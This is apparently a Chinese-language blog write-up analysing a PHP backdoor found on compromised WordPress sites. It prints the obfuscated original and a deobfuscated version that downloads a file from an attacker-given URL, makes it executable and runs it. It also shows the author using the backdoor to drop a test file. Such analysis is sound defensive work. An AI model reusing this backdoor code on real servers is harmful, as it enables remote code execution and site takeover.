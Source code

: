 ```yaml
---
title: 超过35000个WordPress站被攻破事件分析
date: 2019-08-09 16:33:25
tags:
  - wordpress
  - writeup
categories:
---
```


一开始看到了 https://www.v2ex.com/t/588483 这个帖子
找到了 https://twitter.com/blackorbird/status/1158377821963575296

<!-- more -->

## 🐎
```php
<?php goto D242; Cfc5: echo "\x61\x75\x78\x36\x54\150\x65\151\157\x47\150\165\x65\x51\x75\63"; goto e83e; f7cc: B487: goto d892; Ff02: chmod($C43e, 0755); goto b30d; e9df: if (empty($B113)) { goto B487; } goto a0b1; B80e: echo "\157\153"; goto f7cc; c76b: if (!($_POST["\143\x70"] == "\144\157\167\x6e\x6c\157\x61\x64")) { goto Ee85; } goto A93f; bdbb: exec("\x70\153\151\x6c\154\40\x2d\71\x20\55\x66\x20\163\x74\x65\141\x6c\x74\150"); goto c200; F9c6: $B113 = $_POST["\x75\162\x6c"]; goto e9df; b30d: $Ab43 = "\56\x2f{$C43e}\x20\76\40\57\144\x65\166\x2f\x6e\x75\154\x6c\x20\62\76\x2f\144\145\x76\x2f\x6e\x75\154\x6c\40\x26"; goto D4a3; e83e: die; goto D223; d875: if (!($_GET["\x63\147"] == "\143\x68\x6b")) { goto F9f0; } goto Cfc5; D223: F9f0: goto c76b; A93f: $C43e = substr(str_shuffle(str_repeat($bf09 = "\60\61\62\x33\x34\65\x36\67\x38\x39\141\x62\143\x64\x65\x66\147\x68\x69\152\153\x6c\x6d\x6e\x6f\x70\161\162\163\164\x75\166\x77\x78\x79\x7a\x41\102\x43\x44\105\x46\107\x48\x49\112\113\x4c\x4d\116\117\120\121\122\123\x54\125\126\127\x58\131\132", ceil(6 / strlen($bf09)))), 1, 6); goto F9c6; F064: $b3e4 = file_get_contents(trim($B113)); goto a92a; D4a3: exec($Ab43); goto B80e; a92a: file_put_contents($C43e, $b3e4); goto Ff02; a0b1: @unlink($C43e); goto bdbb; c200: exec("\160\x6b\x69\154\154\40\x2d\146\x20\x2d\71\40\x73\164\145\141\154\x74\150"); goto F064; D242: error_reporting(0); goto d875; d892: Ee85:
```

## 分析后
```php
<?php
error_reporting(0);
if ($_GET["cg"] == "chk") {
  echo "aux6TheioGhueQu3";
} else if ($_POST["cp"] == "download") {
  $cqQHbAE5XLgs8psC = substr(str_shuffle(str_repeat($ZNPTFf3D_3zXFaNZ = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ", ceil(6 / strlen($ZNPTFf3D_3zXFaNZ)))), 1, 6);
  if (!empty($_POST["url"])) {
    @unlink($cqQHbAE5XLgs8psC);
    exec("pkill -9 -f stealth");
    exec("pkill -f -9 stealth");
    $zoUdl1u2MM35rLMf = file_get_contents(trim($_POST["url"]));
    file_put_contents($cqQHbAE5XLgs8psC, $zoUdl1u2MM35rLMf);
    chmod($cqQHbAE5XLgs8psC, 0755);
    $h2mklze53I9MDH0c = "./{$cqQHbAE5XLgs8psC} > /dev/null 2>/dev/null &";
    exec($h2mklze53I9MDH0c);
    echo "ok";
  }
}
?>
```
我想说对那个挂🐎的人说 你累不累啊你 反正我是很累
我感觉不是机器混淆的 是手工混淆 2个字 NB

## 分析
这程序很简单

### 0x01
GET 给一个 cg=chk
很明显是用来确认🐎是否存在的


#### 测试
<img width="847" src="https://user-images.githubusercontent.com/19854253/62766754-c3ee2a80-bac5-11e9-99e3-ea3b848e53da.png">

### 0x02
POST 给一个
cp=download
url=要下载的地址

首先会杀进程`stealth`
接下来就会把地址的内容下载下来命名为随机一个名字 给予执行权限并后台执行
最后没有错误的话会输出`ok`

#### 测试
<img width="757" src="https://user-images.githubusercontent.com/19854253/62766796-d8322780-bac5-11e9-9f85-9f5f1ccb7728.png">

接下来的操作看自己发挥了

由于有写权限随便写个一句话不是问题

这里写一个phpinfo进去m.php
网页内容
```bash
#!/bin/bash
echo "<?php phpinfo() ?>" > m.php
```
<img width="865" src="https://user-images.githubusercontent.com/19854253/62768264-141abc00-bac9-11e9-8f67-16d2afcdd9cc.png">








